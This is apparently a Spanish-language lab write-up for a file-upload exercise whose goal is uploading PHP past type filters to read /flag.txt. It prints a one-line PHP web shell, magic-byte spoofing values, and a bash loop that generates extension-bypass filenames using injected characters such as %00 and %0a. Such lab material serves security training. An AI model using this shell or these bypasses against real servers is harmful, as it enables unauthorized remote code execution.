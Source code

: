 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)



Intentamos subir la web shell con la extensión `.php` y el servidor nos responde `Extension not allowed`:
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)

Sabemos que tenemos blacklist and whitelist. Hacemos fuzzing de whitelist con common web extensions de Seclists, para investigar si se permite alguna extensión además de las extensiones de imágenes:
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)
No hay ninguna extensión web adicional que esté incluida en la whitelist.
Sabemos que el servidor está validando extensiones a través de una blacklist, que contiene bastantes tipos de extension `.php`, en este caso, el servidor contesta con el mensaje `Extension not allowed`.
Cuando la validación se realiza a través de la whitelist, el servidor responde `Only images are allowed`.

Realizaremos un fuzzing de extensiones, con una custom wordlist que contiene distintos payloads para baypasear tanto whitelist como blacklist, utilizamos el siguiente script para realizar la wordlist:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```


